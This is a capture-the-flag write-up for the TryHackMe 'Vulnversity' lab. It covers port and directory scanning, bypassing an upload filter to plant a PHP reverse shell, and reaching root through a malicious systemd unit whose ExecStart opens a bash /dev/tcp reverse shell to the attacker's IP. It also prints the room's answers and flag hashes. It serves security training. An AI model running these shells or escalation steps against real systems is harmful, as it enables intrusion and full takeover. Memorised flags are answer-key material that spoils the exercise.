

# Vulnsersity
**Category:** Web
## Challenge Details
TryHackMe Challenge: [Vulnersity](https://tryhackme.com/room/vulnversity).
Server IP address: 10.10.46.102
Local IP address: 10.8.73.170
Learn about active recon, web app attacks and privilege escalation.  
- Port scanning
- PHP reverse shell (file upload)
- Privilege escalation

## Write Up

### Reconnaissance  

Gather information about this machine using a network scanning tool called [nmap](https://nmap.org/download.html).  
Using `nmap -sV 10.10.46.102`, information about the services on the server are shown.  

  

- Scan the box, how many ports are open? **6**
- What is the most likely operating system this machine is running? **Ubuntu**
- What port is the web server running on? **Port 3333**

### Locating directories using GoBuster 

Using a fast directory discovery tool called [GoBuster](https://github.com/OJ/gobuster) you will locate a directory that you can use to upload a shell to.

```sh
sudo apt install gobuster
gobuster -u http://10.10.46.102:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

  

Upon visiting the directory `/internal/`, a file upload page was discovered.  

  

### Compromise the webserver  

When uploading a [PHP reverse shell script](https://github.com/pentestmonkey/php-reverse-shell), it appears that the file extension `.php` is not allowed. After brute-forcing with other extensions, `.phtml` seemed to be allowed.  
>.php
>.php3
>.php4
>.php5
>***.phtml***

To gain remote access to this machine, follow these steps:
1. Edit the php-reverse-shell.php file and edit the ip to be your IP address.
2. Rename this file to php-reverse-shell.phtml
3. We're now going to listen to incoming connections using netcat. Run the following command: `nc -lvnp 4444`
4. Upload your shell and navigate to http://10.10.46.102:3333/internal/uploads/php-reverse-shell.phtml - This will execute your payload
5. You should see a connection on your netcat session

  

#### User Flag:
```
8bd7992fbe8a6ad22a63361004cfcedb
```

### Privilege Escalation 
Now you have compromised this machine, we are going to escalate our privileges and become the superuser (root).  


In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).  
Using the command ```shfind / -user root -perm -4000 -exec ls -ldb {} \;```, the file that stands out appears to be `/bin/systemctl` as a service can be started to grant root privilege.  

  

File root.service will be used to attempt privilege escalation.
```sh
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.8.73.170/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

To gain root access to this machine, follow these steps:
1. Transfer root.service to the remote machine. This can be done by hosting a http service and downloading the file from the remote machine.
2. Enter ```python3 -m http.server```on the local machine.
3. Switch to the remote machine to download root.service into /tmp directory.
4. Enter ```wget http://10.8.73.170:8000/root.service
  
5. enable root.service using `systemctl enable /tmp/root.service`.
6. Start listener on local machine. `nc -lvnp 9999`.
7. Run root service on remote machine. `systemctl start root.service`


Locate Root flag.  


#### Root Flag:
```
a58ff8579f0a9270368d33a9966c7fd5
```